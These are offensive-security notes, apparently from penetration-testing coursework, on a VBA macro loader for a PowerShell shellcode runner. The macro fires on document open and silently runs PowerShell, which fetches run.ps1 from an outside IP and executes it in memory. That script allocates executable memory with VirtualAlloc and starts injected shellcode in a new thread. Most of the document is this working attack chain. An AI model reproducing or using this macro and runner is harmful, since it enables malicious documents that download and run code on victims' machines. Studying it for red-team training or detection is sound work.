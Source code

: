 
---

#### VBA Loader for PowerShell Script
**PowerShell-Based Shellcode Runner in VBA Macro**
1. Macro
  ```visual-basic
    Sub MyMacro()
        Dim str As String
        str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
        Shell str, vbHide
    End Sub
    
    Sub Document_Open()
        MyMacro
    End Sub
    
    Sub AutoOpen()
        MyMacro
    End Sub
  ```
  This macro executes a PowerShell command that downloads run.ps1 from a remote server and runs it in memory via IEX.
2. hosted powershell script:  run.ps1
  ```powershell
    # Load kernel32.dll functions for memory allocation and threading
    $Kernel32 = @"
    using System;
    using System.Runtime.InteropServices;
    
    public class Kernel32 {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
            
        [DllImport("kernel32", CharSet=CharSet.Ansi)]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
                
        [DllImport("kernel32.dll", SetLastError=true)]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    }
    "@
    
    Add-Type $Kernel32
    
    # Replace with your own shellcode (e.g., msfvenom payload)
    [Byte[]] $buf = 0xfc,0xe8,... # Truncated for brevity
    
    # Allocate memory for the shellcode
    $size = $buf.Length
    [IntPtr]$addr = [Kernel32]::VirtualAlloc(0, $size, 0x3000, 0x40)
    
    # Copy shellcode into allocated memory
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
    
    # Create a thread to execute shellcode
    $thandle = [Kernel32]::CreateThread(0, 0, $addr, 0, 0, 0)
    
    # Wait for thread execution to finish
    [Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")  
  ```
  +  Uses Add-Type to declare VirtualAlloc, CreateThread, WaitForSingleObject
  +  Allocates memory, injects shellcode, and starts a new thread